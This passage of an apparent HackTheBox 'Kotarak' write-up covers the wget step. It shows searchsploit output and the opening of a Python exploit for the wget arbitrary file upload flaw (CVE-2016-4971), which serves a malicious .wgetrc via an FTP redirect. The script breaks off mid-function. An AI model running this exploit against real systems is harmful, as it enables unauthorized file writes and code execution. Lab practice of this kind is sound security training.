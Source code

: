 ```

It looks like there is something else on the network at ```10.0.3.133```

Checking ifconfig shows that we are connected to another network and our local ip for that network is ```10.0.3.1```

We also see the wget version and its old af
```
root@kali:~/hackthebox/Machines/Kotarak# searchsploit wget 1.1
```

| Exploit Title                                                   |  Path                       |
|:-------------------------:                                      |:-------------------------:  |
|GNU Wget < 1.18 - Access List Bypass / Race Condition            | multiple/remote/40824.py    |
|GNU Wget < 1.18 - Arbitrary File Upload / Remote Code Execution  | linux/remote/40064.txt      |
|wget 1.10.2 - (Unchecked Boundary Condition) Denial of Service   | multiple/dos/2947.pl        |

The one which we can use is the 40064.txt

The exploit is made for remote machines, but with two terminals we can exec it on local machine as well, our exploit should work!

So, according to the exploit we need to create 2 files , one is ```.wgetrc``` and another is a python executable ```exploit.py```

We can create the python exec on our machine and upload it via meterpreter, the things we need to change inside the exploit is the HTTP_LISTEN_IP and the FTP_IP to ```10.0.3.1```

This is what it should look like

```python
#!/usr/bin/env python
 
#
# Wget 1.18 < Arbitrary File Upload Exploit
# Dawid Golunski
# dawid( at )legalhackers.com
#
# http://legalhackers.com/advisories/Wget-Arbitrary-File-Upload-Vulnerability-Exploit.txt
#
# CVE-2016-4971 
#
 
import SimpleHTTPServer
import SocketServer
import socket;
 
class wgetExploit(SimpleHTTPServer.SimpleHTTPRequestHandler):
   def do_GET(self):
       # This takes care of sending .wgetrc
 
       print "We have a volunteer requesting " + self.path + " by GET :)\n"
       if "Wget" not in self.headers.getheader('User-Agent'):
      print "But it's not a Wget :( \n"
          self.send_response(200)
          self.end_headers()
          self.wfile.write("Nothing to see here...")
          return
 
       print "Uploading .wgetrc via ftp redirect vuln. It should land in /root \n"
       self.send_response(301)
       new_path = '%s'%('ftp://anonymous@%s:%s/.wgetrc'%(FTP_HOST, FTP_PORT) )
       print "Sending redirect to %s \n"%(new_path)
```